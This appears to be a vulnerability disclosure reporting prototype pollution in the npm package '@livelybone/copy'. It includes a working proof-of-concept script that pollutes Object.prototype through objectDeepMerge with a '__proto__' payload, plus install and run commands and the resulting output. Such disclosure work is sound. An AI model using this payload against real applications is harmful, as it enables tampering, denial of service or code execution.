 # Description

`@livelybone/copy` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var copy = require("@livelybone/copy")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
copy.objectDeepMerge(obj, payload);
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i @livelybone/copy # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```

